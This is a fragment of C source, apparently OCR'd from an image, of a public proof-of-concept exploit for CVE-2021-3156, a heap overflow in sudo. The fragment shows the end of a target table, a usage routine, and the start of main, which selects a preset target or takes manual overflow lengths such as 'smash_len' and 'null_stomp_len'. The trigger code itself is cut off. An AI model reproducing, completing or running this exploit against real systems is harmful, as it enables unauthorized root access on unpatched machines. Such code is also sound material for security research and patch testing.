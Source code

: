 ```c
        .null_stomp_len = 60, 
        .lc_all_len     = 214
        }
};

void usage(char *prog) {
    fprintf(stdout,
            "  usage: %s <target>\n\n"
            "  available targets:\n"
            "  ------------------------------------------------------------\n",
            prog
           );
    for(int i = 0; i < sizeof(targets) / sizeof(target_t); i++) {
        printf("    %d) %s\n", i, targets[i].target_name);
    }
    fprintf(stdout,
            "  ------------------------------------------------------------\n"
            "\n"
            "  manual mode:\n"
            "    %s <smash_len_a> <smash_len_b> <null_stomp_len> <lc_all_len>\n"
            "\n",
            prog
           );
}

int main(int argc, char *argv[]) {
    printf("\n** CVE-2021-3156 PoC by blasty <peter@haxx.in>\n\n");
    
    if (argc != 2 && argc != 5) {
        usage(argv[0]);
        return -1;
    }
    
    target_t *target = NULL;
    if (argc == 2) {
        int target_idx = atoi(argv[1]);
        
        if (target_idx < 0 || target_idx >= (sizeof(targets) / sizeof(target_t))) {
            fprintf(stderr, "invalid target index\n");
            return -1;
        }
        
        target = &targets[ target_idx ];
    }  else {
        target = malloc(sizeof(target_t));
        target->target_name    = "Manual";
        target->sudoedit_path  = SUDOEDIT_PATH;
        target->smash_len_a    = atoi(argv[1]);
        target->smash_len_b    = atoi(argv[2]);
        target->null_stomp_len = atoi(argv[3]);
        target->lc_all_len     = atoi(argv[4]);
    }
    
    printf(
        "using target: %s ['%s'] (%d, %d, %d, %d)\n", 
        target->target_name,
        target->sudoedit_path,
        target->smash_len_a,
        target->smash_len_b,
        target->null_stomp_len,
        target->lc_all_len
    );
    
```